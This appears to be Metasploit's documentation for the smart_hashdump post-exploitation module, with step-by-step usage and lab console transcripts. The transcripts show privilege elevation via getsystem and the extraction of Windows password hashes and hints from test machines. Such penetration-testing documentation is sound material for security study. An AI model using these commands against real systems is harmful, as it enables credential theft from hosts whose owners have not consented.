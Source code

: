 ## Vulnerable Application
The post/windows/gather/smart_hashdump module dumps local accounts from the SAM database. If the target host
is a Domain Controller, it will dump the Domain Account Database using the proper technique depending
on privilege level, OS and role of the host.

Hashes will be saved to the Metasploit database in John the Ripper format for later use.

To be able to use post/windows/gather/smart_hashdump, you must meet these requirements:

* You are on a Meterpreter type session.
* The target is a Windows platform.
* It must be executed under the context of a high privilege account, such as SYSTEM.

## Verification Steps

1. Obtain a meterpreter shell on a Windows system, and ensure that you have SYSTEM privileges
   or are running as a highly privileged user.
1. `use post/windows/gather/smart_hashdump`
1. Specify the session, eg: `set SESSION 1`
1. If necessary, tell the module to attempt to elevate to SYSTEM before
   attempting to dump the credentials with the command: `set GETSYSTEM true`.
1. Run the module.

## Options

### GETSYSTEM
Attempt to run the `getsystem` module on the target host to get `NT AUTHORITY\SYSTEM` privileges prior to dumping the hashes.

## Scenarios

**High Privilege Account on Windows 10 x64 v2004**

Before using post/windows/gather/smart_hashdump, there is a possibility you need to escalate your privileges.
This module features a `GETSYSTEM` option, which will attempt to elevate from a high privileged account to `NT AUTHORITY\SYSTEM`.
This can be seen in the following example which is running as a high privileged user in which the module
fails to run successfully as the current user is not `NT AUTHORITY\SYSTEM`. By using the `GETSYSTEM` option, the user is able
to elevate themselves to `NT AUTHORITY\SYSTEM` using Metasploit's `getsystem` module, after which they are then able
to dump the password hashes.

```
msf exploit(multi/handler) > use post/windows/gather/smart_hashdump
msf post(windows/gather/smart_hashdump) > show options

Module options (post/windows/gather/smart_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   GETSYSTEM  false            no        Attempt to get SYSTEM privilege on the target host.
   SESSION                     yes       The session to run this module on.

msf post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008121933_default_192.168.56.117_windows.hashes_338495.txt
[-] Insufficient privileges to dump hashes!
[*] Post module execution completed
msf post(windows/gather/smart_hashdump) > set GETSYSTEM true
GETSYSTEM => true
msf post(windows/gather/smart_hashdump) > run

[*] Running module against DESKTOP-G7A2R2R
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/kali/.msf4/loot/20201008122008_default_192.168.56.117_windows.hashes_353942.txt
[*] Dumping password hashes...
[*] Trying to get SYSTEM privilege
[+] Got SYSTEM privilege
[*]     Obtaining the boot key...
[*]     Calculating the hboot key using SYSKEY 4934844cf0365459683ed18d9ebcb903...
[*]     Obtaining the user list and keys...
[*]     Decrypting user keys...
[*]     Dumping password hints...
[*]     No users with password hints on this system
[*]     Dumping password hashes...
[+]     Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+]     user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Post module execution completed
```

**Running as the SYSTEM user on Windows 7 x64 SP1**
```
msf exploit(multi/handler) > exploit

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-08 12:46:47 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > use post/windows/gather/smart_hashdump
msf post(windows/gather/smart_hashdump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 1...
msf post(windows/gather/smart_hashdump) > set SESSION 1
SESSION => 1
msf post(windows/gather/smart_hashdump) > run

[*] Running module against TEST-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /home/gwillcox/.msf4/loot/20201008124735_default_172.24.15.185_windows.hashes_456389.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 8e9f8fa11359f037112782911694d611...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	test:"a"
[+] 	test2:"asdf"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	test:1000:aad3b435b51404eeaad3b435b51404ee:0cb6948805f797bf2a82807973b89537:::
[+] 	test2:1001:aad3b435b51404eeaad3b435b51404ee:0e8231621f574d3636255ff36dd86c9c:::
[*] Post module execution completed
msf post(windows/gather/smart_hashdump) >
```
